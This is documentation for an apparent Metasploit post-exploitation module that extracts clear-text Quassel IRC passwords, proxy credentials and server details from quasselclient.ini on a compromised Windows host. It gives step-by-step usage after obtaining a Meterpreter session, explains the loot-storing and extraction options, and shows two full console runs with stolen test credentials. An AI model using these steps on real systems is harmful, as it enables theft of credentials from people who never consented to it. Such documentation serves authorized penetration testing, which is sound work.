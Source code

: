 ## Vulnerable Application

This post-exploitation module extracts clear text credentials from the Quassel IRC Client.

The Quassel IRC Client is avaialble from (https://quassel-irc.org/downloads).

This module extracts information from the quasselclient.ini file in the "AppData\Roaming\quassel-irc.org" directory.

This module extracts server information such as host name, port, account name, password and proxy password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/quasell_irc
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Default Output
```
msf6 post(windows/gather/credentials/quassel_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Quassel irc's Quasselclient.ini file found
[*] Downloading C:\Users\test\AppData\Roaming\quassel-irc.org\quasselclient.ini
[*] Quassel irc Quasselclient.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507163717_default_10.0.0.2_QuasselIRCquass_570372.ini

[+] 1\HostName=10.245.100.2
[+] 2\HostName=10.0.0.3
[+] 1\Port=4242
[+] 2\Port=1234
[+] 1\AccountName=Test
[+] 2\AccountName=Test#2
[+] 1\Password=tiaspbiqe2r
[+] 2\Password=tiaspbiqe2r
[+] 1\ProxyHostName=localhost
[+] 2\ProxyHostName=
[+] 1\ProxyPort=8080
[+] 2\ProxyPort=8080
[+] 1\ProxyUser=test
[+] 2\ProxyUser=
[+] 1\ProxyPassword=tiaspbiqe2r
[+] 2\ProxyPassword=
[+] File with data saved:  /home/kali/.msf4/loot/20240507163717_default_10.0.0.2_EXTRACTIONquasse_134569.ini
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

### Verbose Output
```
msf6 post(windows/gather/credentials/quassel_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Quassel irc's base folder not found in user's user directory

[*] Starting Packrat...
[*] Quassel irc's base folder found
[*] Found the folder containing specified artifact for quasselclient.ini.
[*] Quassel irc's Quasselclient.ini file found
[*] Processing C:\Users\test\AppData\Roaming\quassel-irc.org
[*] Downloading C:\Users\test\AppData\Roaming\quassel-irc.org\quasselclient.ini
[*] Quassel irc Quasselclient.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507164141_default_10.0.0.2_QuasselIRCquass_310535.ini

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\HostName=10.245.100.2
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\HostName=10.0.0.3
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\Port=4242
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\Port=1234
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\AccountName=Test
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\AccountName=Test#2
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\Password=tiaspbiqe2r
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\Password=tiaspbiqe2r
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyHostName=localhost
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyHostName=
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyPort=8080
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyPort=8080
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyUser=test
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyUser=
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyPassword=tiaspbiqe2r
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyPassword=
[+] File with data saved:  /home/kali/.msf4/loot/20240507164141_default_10.0.0.2_EXTRACTIONquasse_967148.ini
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
